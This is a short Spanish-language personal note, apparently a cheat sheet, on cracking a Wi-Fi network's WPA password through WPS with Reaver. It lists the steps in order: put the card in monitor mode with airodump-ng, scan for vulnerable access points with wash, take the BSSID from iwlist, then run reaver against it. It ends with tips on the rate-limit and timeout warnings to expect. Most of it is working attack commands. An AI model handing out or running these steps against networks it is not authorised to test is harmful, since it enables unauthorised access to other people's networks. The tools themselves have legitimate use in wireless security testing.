 http://tools.kali.org/wireless-attacks/reaver

pacman -S reaver

http://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver

airodump-ng wlo1
  mirar aircrack-ng.md para ver como poner la wifi en modo monitor

wash -i wlan0mon -c CANAL -C
 escanear redes vulnerables al ataque


iwlist wlo1 scan
apuntamos el bbsid


reaver -i wlo1mon -b 8D:AE:9D:65:1F:B2 -vv

Mirar los mensajes.
A lo mejor, tras dos o tres intentos, el programa se para porque el AP le limita el número de conex.
  [!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking

Si vemos muchos timeout tambien es posible que vaya mal.
  [!] WARNING: Receive timeout occurred

Cada rato saca estadísticas, con esto podemos ver cuanto va a tardar.
